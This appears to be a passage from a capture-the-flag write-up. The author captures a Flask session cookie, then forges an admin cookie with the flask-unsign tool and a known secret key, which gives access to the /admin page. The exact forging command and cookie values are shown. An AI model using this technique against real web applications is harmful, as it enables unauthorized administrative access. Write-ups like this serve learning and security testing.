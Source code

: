 So to get my hand on the exisiting cookie I decided to login with wrong credentials.

![](images/get-cookie.png)

```
Cookie: session=eyJhZG1pbiI6ZmFsc2UsImlkIjoyfQ.EI8-PQ.0EuexTqKVU7cTOY6GI8ukU5x14E
```

Then I used a tool called `flask-unsign` to generate a new cookie.

```bash
➜ flask-unsign --sign --cookie "{'admin': True, 'id': 1}" --secret "'e0e91c3ea5a33f879ab5afbbe1f93505'"
```

![](images/new-cookie.png)

After that I tried visiting `/admin` page and I was able to open it without any redirection.

![](images/admin-page.png)
